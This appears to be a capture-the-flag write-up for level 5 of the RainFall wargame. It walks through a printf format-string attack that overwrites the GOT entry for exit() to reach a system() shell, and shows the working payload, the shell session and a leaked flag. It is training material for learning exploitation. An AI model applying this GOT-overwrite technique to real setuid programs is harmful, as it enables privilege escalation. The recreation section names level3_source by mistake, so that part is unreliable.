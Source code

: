# Level 5

## Vulnerability

Global Offset Table Exploit + printf string vulnerability

## Context

```
level5@RainFall:~$ ls -l
total 8
-rwsr-s---+ 1 level6 users 5385 Mar  6  2016 level5
level5@RainFall:~$ ./level5
hello
hello
```
We have a binary that prints input from the stdin.

## Solution

Let's take a look at the binary in gdb. <br/>
We can see here that ```level5``` makes a call to ```main()```, which makes a call to a function ```n()```. <br/>
There is also a function ```o()``` which is not called. 
```
(gdb) disas main
Dump of assembler code for function main:
   0x08048504 <+0>:	push   %ebp
   0x08048505 <+1>:	mov    %esp,%ebp
   0x08048507 <+3>:	and    $0xfffffff0,%esp
   0x0804850a <+6>:	call   0x80484c2 <n>
   0x0804850f <+11>:	leave
   0x08048510 <+12>:	ret
```
Let's take a deeper look a ```n()```. <br/>
We can see two function calls in ```n()```. <br/>
One is to ```fgets()```, which is protected against buffer overflow attacks. <br/>
The other is to ```printf()```, which is vulnerable to string format exploits. <br/>
The function then calls ```exit()```.
```
(gdb) disas n
Dump of assembler code for function n:
[...]
   0x080484e5 <+35>:	call   0x80483a0 <fgets@plt>
[...]
   0x080484f3 <+49>:	call   0x8048380 <printf@plt>
[...]
   0x080484ff <+61>:	call   0x80483d0 <exit@plt>
```
In ```o()```, we can see a call to ```system()```, which launches a new shell. 
```
(gdb) disas o
Dump of assembler code for function o:
[...]
   0x080484b1 <+13>:	call   0x80483b0 <system@plt>
```
Why are all these functions ```@plt```? <br/> <br/>
~ A little background: ~ <br/>
A ```PLT``` (or Procedure Linkage Table) is a special section in compiled programs which consists of many jump instructions to external  <br/>
functions / shared libraries (for example, libc functions). These jump instructions jump to the ```GOT``` (or Global Offset Table),  <br/>
which contains the actual function address. <br/>
The PLT is read-only, but the GOT can be written to. <br/>
The execution flow of the program can be controlled by overwriting one of the GOT's function addresses. <br/> <br/>
So... what's the plan? <br/>
We can leverage ```printf``` in a format string attack to replace the address of ```exit()``` with the address of ```o()```, <br/>
which will then call ```system``` to launch a new shell. <br/> <br/> 
Let's locate the addresses of ```exit()``` and ```o()```. <br/> 
```
(gdb) info functions
All defined functions:

[...]
0x080483d0  exit@plt
0x080484a4  o
```
Unfortunately, the real address of ```exit()``` is in the GOT. Let's looks there. 
```
level5@RainFall:~$ objdump -R level5 | grep exit
08049838 R_386_JUMP_SLOT   exit
```
So the address of ```exit()``` is 0x08049838, and the address of ```o()``` is 0x080484a4.<br/><br/>

Just like in level3, let's check our buffer position with a ```printf()``` string format exploit.
```
level5@RainFall:~$ python -c 'print "AAAA %x %x %x %x %x %x %x"' | ./level5
AAAA 200 b7fd1ac0 b7ff37d0 41414141 20782520 25207825 78252078
```
We can see our buffer "AAAA" in the 4th position on the stack as 41414141. <br/>
So let's replace "AAAA" with the address of ```exit()``` (in little endian). <br/><br/>
The next step is to overwrite ```exit()``` by ```o()```, using the the ```%n``` modifier. <br/>
For the ```%n``` modifier, we need the number of bytes to write. <br/>
"0x080484a4" in decimal is "134513828" (minus the exit GOT address [4 bytes]). <br/><br/>
Here is what our string attack will look like:
```
"exit GOT address" + "134513828 - 4 bytes" + "%4$n"
python -c 'print "\x38\x98\x04\x08"+"%134513824d%4$n"' 
```
Let's try it out!
```
level5@RainFall:~$ (python -c 'print "\x38\x98\x04\x08"+"%134513824d%4$n"' ; cat -) | ./level5
[You will find are in an infinite print loop. Type anything and press "enter"]
whoami
level6
cat /home/user/level6/.pass
d3b7bf1025225bd715fa8ccb54ef06ca70b9125ac855aeab4878217177f41a31
```

## Recreate Exploited Binary

As user level6, in /tmp, create and compile level5_source.c.
```
level6@RainFall:~$ cd /tmp
level6@RainFall:/tmp$ gcc level5_source.c -fno-stack-protector -o level5_source
```
Edit permissions including suid, then move the binary to home directory.
```
level6@RainFall:/tmp$ chmod u+s level5_source
level6@RainFall:/tmp$ chmod +wx ~; mv level3_source ~
```
Exit back to user level5, then run the binary. <br/>
(Note: Our new variable ```m``` is located at 0x0804a04c, but we still print the address in little endian).
```
level6@RainFall:/tmp$ exit
exit
level5@RainFall:~$ (python -c 'print "\x38\x98\x04\x08"+"%134513824d%4$n"' ; cat -) | /home/user/level6/level5_source
```







